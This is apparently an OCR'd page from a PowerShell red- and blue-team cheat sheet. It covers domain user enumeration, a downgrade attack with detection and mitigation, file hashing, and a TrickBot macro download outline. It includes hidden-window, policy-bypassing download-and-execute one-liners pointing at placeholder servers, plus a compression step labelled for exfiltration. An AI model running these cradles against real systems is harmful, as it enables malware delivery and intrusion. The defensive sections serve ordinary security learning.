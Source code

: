 ```

Enumerate domain machines of the current/specified domain where specific
users are logged in

```
Find‐DomainUserLocation ‐Domain <DomainName> | Select‐Object UserName,
SessionFromName
```

## Sneaky PowerShell Commands:

```powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file] '))"```

```powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetw orkCredentials;iwr('http://webserver/payload.ps1')|iex"```

PowerShell Downgrade Attack

```
PowerShell –Version 2 –Command <…>
```

Detecting PowerShell Downgrade Attacks

```
Get-WinEvent -LogName "Windows PowerShell" |
    Where-Object Id -eq 400 |
    Foreach-Object {
        $version = [Version] (
            $_.Message -replace '(?s).*EngineVersion=([\d\.]+)*.*','$1')
        if($version -lt ([Version] "5.0")) { $_ }
}
```

Disabling PowerShell Version 2

```
# Query the current status of PowerShell 2.0 components:
Get-WindowsOptionalFeature -Online -FeatureName "*PowerShellV2*"

# Disable PowerShell 2.0:
Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2
Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
```

PowerShell Data Compression for Exfiltration

```
PS > Compress-Archive -Path <files to zip> -CompressionLevel
Optimal -DestinationPath <output path>
```

PowerShell File Hashing for Blue Teamers

```
Get-ChildItem -Path D:\Potentially_Malicious\Folder\ | Get-FileHash | Export-Csv -Path D:\PowerShell\FilesHashes_For_VirusTotal.csv -NoTypeInformation
```

## TrickBot PowerShell Download TTP:

1. Insert base64 string for malicious web server
2. Select filename for output in %tmp% directory
3. Attach to Office macro
```

[VICTIM]: PS C:\Users\Victim\Documents>
